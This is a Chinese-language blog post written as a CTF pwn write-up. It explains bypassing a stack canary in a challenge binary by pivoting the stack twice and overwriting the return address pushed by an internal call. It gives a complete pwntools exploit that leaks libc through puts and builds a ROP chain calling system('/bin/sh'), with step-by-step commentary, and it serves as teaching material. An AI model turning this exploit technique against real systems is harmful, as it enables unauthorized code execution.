 ```yaml
---
title: "有意思的canary"
description: "学不懂!"
pubDate: "Jun 16 2023"
published: true
heroImage: "../../assets/4.png"
tags: ["技术"]
---
```

# 勘误 
> 感谢大专老哥，让我一直以来错误的思想完全纠错了过来。
> 不得不说，现在pwn的题目脑洞真的大。
> 连续三次遇到非常规的栈迁移和非常规的格式化字符串。
> 这里给出某战队师傅的锐评
> ![4DA953EC8C163A2B495F1FF649392822.jpg](https://cdn.nlark.com/yuque/0/2023/jpeg/29466846/1686885711487-9d13f091-cc9b-4bc7-a59d-af784ae95253.jpeg#averageHue=%23fdfefe&clientId=uc38eb869-7fe5-4&from=paste&height=219&id=u4a71c358&originHeight=362&originWidth=879&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=61284&status=done&style=none&taskId=u05807259-1efb-4a57-9047-3474d62422f&title=&width=532.7272419364674)

水完这篇就不写了，上线代课的时候，忽然想到自己这里理解错了，虽然也写出来了，之前公众号一篇文章里面的一道题。<br />[声东击西|三道有意思的pwn题](https://mp.weixin.qq.com/s?__biz=Mzg3OTgzNjk4OA==&mid=2247486156&idx=1&sn=7b110b88a9e4645a7884a9461ec0925a&chksm=cf7f209ff808a98958b0c0ccb5b8c85d52de394317037209237c26023ca6247cc3e94101fabf#rd)<br />速度速度，搞完四级。<br />哦对，以后打比赛，写题目，最快的方法就是调试，调到栈上的返回地址啊什么的，为我们想要的，这样就能快速避免出错了！！！也不用去思考究竟便宜多少。一步步rop嘛。分解动作去调试完成。
## 题目

- 本题的重点在于如何绕过canary

![](https://cdn.nlark.com/yuque/0/2023/png/29466846/1686652249303-57682fe4-653a-43c0-8097-c1369adb969d.png#averageHue=%23040403&from=url&id=vJCJr&originHeight=861&originWidth=1553&originalType=binary&ratio=1.5&rotation=0&showTitle=false&status=done&style=none&title=)<br />![](https://cdn.nlark.com/yuque/0/2023/png/29466846/1686652176225-fa5d57de-07da-44ee-b21c-b673c9c9d83a.png#averageHue=%23030202&from=url&id=wQMjg&originHeight=434&originWidth=1237&originalType=binary&ratio=1.5&rotation=0&showTitle=false&status=done&style=none&title=)
## EXP
废话不多说，先看exp<br />![](https://cdn.nlark.com/yuque/0/2023/jpeg/29466846/1686885339882-d9693cf1-927f-4e2a-9b6d-bf2cf999065f.jpeg)
```python

from pwn import *
context.log_level = 'debug'

#io = gdb.debug('./canary')
p = process('./canary')
elf = ELF('./canary')
libc = elf.libc

r = lambda : p.recv()
rl = lambda : p.recvline()
rc = lambda x: p.recv(x)
ru = lambda x: p.recvuntil(x)
rud = lambda x: p.recvuntil(x, drop=True)
s = lambda x: p.send(x)
sl = lambda x: p.sendline(x)
sa = lambda x, y: p.sendafter(x, y)
sla = lambda x, y: p.sendlineafter(x, y)
shell = lambda : p.interactive()
pr = lambda name,x : log.info(name+':'+hex(x))

DEBUG = 0

def debug(bp = None):
    if DEBUG == 1:
        if bp != None:
            gdb.attach(p, bp)
        else:
            gdb.attach(p)


main = 0x401296
main2 = 0x40133f
gift = 0x401258
pop_rdi = 0x4013e3
ret = 0x40101a
puts_got = elf.got['puts']
puts_plt = elf.plt['puts']

sla(b"functions?\n", b'0')
s(p64(0x404900) + p64(main))
sla(b"functions?\n", b'0')
s(p64(0x404948) + p64(gift))

payload = p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(gift) + b'a' * 0x28  #+ p64(0x404900)
pause()
s(payload)

libc.address = u64(ru(b'\x7f')[-6:].ljust(8, b'\x00')) - libc.sym['puts']
pr('libc_base', libc.address)
system = libc.sym['system']
binsh = next(libc.search(b'/bin/sh\x00'))
payload = b'a' * 0x18 + p64(pop_rdi) + p64(binsh) + p64(system)
pause()
s(payload)


shell()
```
## 重点：理解ret和call和参数寻址和

- call指令，将当前的地址push进去，也就是说，esp会下移动一个位
- ret指令，将pop当前esp指向的内容到eip，就就是说，esp会上移动一个位
- 参数寻址：不管esp如何，通过ebp定位，也就是说esp负责流程控制，ebp负责数据的定位

![image.png](https://cdn.nlark.com/yuque/0/2023/png/29466846/1686885420233-5525bfd2-ffe3-4386-9807-f5efac90513a.png#averageHue=%236e6c6a&clientId=uc38eb869-7fe5-4&from=paste&height=188&id=u5a458010&originHeight=310&originWidth=843&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=30215&status=done&style=none&taskId=uadc52cbb-3a29-4e7d-b455-11135c1c6a1&title=&width=510.90906137934246)
## 本题的详细分析

- 通过主main函数的read来覆盖ebp，两次实现栈迁移（注意第一次迁移之后，read写入的位置）
- 通过gift里面call read来写栈的同时，也通过覆盖push进去的eip来绕过canary
### 第一次迁移rbp
```python
sla(b"functions?\n", b'0')
s(p64(0x404900) + p64(main))
```
![image.png](https://cdn.nlark.com/yuque/0/2023/png/29466846/1686883993243-eebc35dc-10f0-4f8a-8a7c-e92a28b9a4b6.png#averageHue=%23141b1b&clientId=uc38eb869-7fe5-4&from=paste&height=707&id=Yib8l&originHeight=1166&originWidth=1380&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=1417060&status=done&style=none&taskId=u34505aa8-ba76-4ac1-863c-914cab17e41&title=&width=836.3635880231228)<br />![Snipaste_2023-06-16_10-22-42.png](https://cdn.nlark.com/yuque/0/2023/png/29466846/1686883958742-ab317bbd-87a3-4e1d-b822-f028f17f2054.png#averageHue=%23181f1f&clientId=uc38eb869-7fe5-4&from=paste&height=530&id=u214bde6c&originHeight=875&originWidth=1271&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=646418&status=done&style=none&taskId=u3eabdd65-4b9c-495c-8238-806db1e9211&title=&width=770.3029857807168)
### 第二次迁移rsp，于写目标栈
```python
sla(b"functions?\n", b'0')
s(p64(0x404948) + p64(gift))
```
![image.png](https://cdn.nlark.com/yuque/0/2023/png/29466846/1686884033596-d7aca4b0-6725-4849-93dc-128893f77a26.png#averageHue=%23151e21&clientId=uc38eb869-7fe5-4&from=paste&height=398&id=ub4090f35&originHeight=656&originWidth=1166&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=892316&status=done&style=none&taskId=u2ff15ac4-1e1c-45bf-9dc4-e6a4d1f5a43&title=&width=706.6666258224357)<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/29466846/1686884106541-dad337dc-4e7b-4835-89dd-a002ad17ef34.png#averageHue=%231a2120&clientId=uc38eb869-7fe5-4&from=paste&height=239&id=u50d58987&originHeight=394&originWidth=1280&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=668459&status=done&style=none&taskId=uce52fa95-2abe-48f2-99f3-80c18adfd14&title=&width=775.757530919998)
### 目标栈写rop链同时，覆盖call返回绕过canary
```python
payload = p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(gift) + b'a' * 0x28 + p64(0x404900)
```
![image.png](https://cdn.nlark.com/yuque/0/2023/png/29466846/1686884151274-bcc2e2ac-f89a-40e1-9dc4-b34c46107d83.png#averageHue=%23141c1a&clientId=uc38eb869-7fe5-4&from=paste&height=467&id=u4a1d2aad&originHeight=771&originWidth=1203&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=1009380&status=done&style=none&taskId=u18872cfc-589d-4972-9894-828e68709a2&title=&width=729.0908669505918)<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/29466846/1686884158945-b11da903-6fc8-4cb1-891f-ea819eaac217.png#averageHue=%23172023&clientId=uc38eb869-7fe5-4&from=paste&height=311&id=uef8d7f2e&originHeight=513&originWidth=1362&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=648016&status=done&style=none&taskId=u7cf33ae5-1ef2-4cd2-870e-56d43af3f4e&title=&width=825.4544977445604)
### 成功指向并泄露libc
```python
libc.address = u64(ru(b'\x7f')[-6:].ljust(8, b'\x00')) - libc.sym['puts']
pr('libc_base', libc.address)
system = libc.sym['system']
binsh = next(libc.search(b'/bin/sh\x00'))
```
![image.png](https://cdn.nlark.com/yuque/0/2023/png/29466846/1686884185201-3fd3742a-b7df-449f-bb25-b246274f9c54.png#averageHue=%2313191b&clientId=uc38eb869-7fe5-4&from=paste&height=776&id=u4acb32e9&originHeight=1280&originWidth=2487&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=3075709&status=done&style=none&taskId=u8887355c-ba1f-4950-a0e2-ef304a47742&title=&width=1507.272640154715)
### 再次覆盖gift里面的call，从而再次绕过canary直接getshell
```python
payload = b'a' * 0x18 + p64(pop_rdi) + p64(binsh) + p64(system)
pause()
s(payload)
shell()
```
![image.png](https://cdn.nlark.com/yuque/0/2023/png/29466846/1686884236766-1575fc6d-3f44-4ed1-9844-e2b7e7e1a7a0.png#averageHue=%231b2527&clientId=uc38eb869-7fe5-4&from=paste&height=674&id=uaf573afb&originHeight=1112&originWidth=1297&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=1548612&status=done&style=none&taskId=u0d8037a8-6ce0-427a-a22a-d529e832820&title=&width=786.0605606275292)<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/29466846/1686884249806-19481e75-6685-4ffd-9be3-563ca5a26a1c.png#averageHue=%230a0e10&clientId=uc38eb869-7fe5-4&from=paste&height=425&id=uf8b2c928&originHeight=701&originWidth=1120&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=640099&status=done&style=none&taskId=u84b27d76-8bf0-4202-81f8-e909b6d1d81&title=&width=678.7878395549983)
## 图解流程
![](https://cdn.nlark.com/yuque/0/2023/jpeg/29466846/1686885386260-da81dac6-df71-46b6-a832-4bb12c9442e9.jpeg)
